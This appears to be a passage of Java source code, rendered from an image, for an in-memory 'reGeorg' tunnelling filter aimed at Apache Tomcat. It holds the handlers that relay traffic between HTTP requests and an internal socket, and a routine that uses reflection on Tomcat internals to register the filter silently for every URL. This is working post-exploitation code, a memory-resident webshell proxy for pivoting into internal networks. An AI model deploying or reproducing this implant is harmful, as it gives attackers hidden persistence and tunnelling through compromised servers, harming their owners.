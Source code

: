 ```java
                    while (bytesRead > 0){
                        so.write(buf.array(),0,bytesRead);
                        so.flush();
                        buf.clear();
                        bytesRead = socketChannel.read(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                    so.flush();
                    so.close();
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }

            } else if (cmd.compareTo("FORWARD") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try {
                    int readlen = request.getContentLength();
                    byte[] buff = new byte[readlen];
                    request.getInputStream().read(buff, 0, readlen);
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(readlen);
                    buf.clear();
                    buf.put(buff);
                    buf.flip();
                    while(buf.hasRemaining()) {
                        socketChannel.write(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                    socketChannel.socket().close();
                }
            }
        } else {
            filterChain.doFilter(request, response);
        }
    }

    public boolean equals(Object obj) {
        Object[] context=(Object[]) obj;
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new MemReGeorg(),"reGeorg","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
```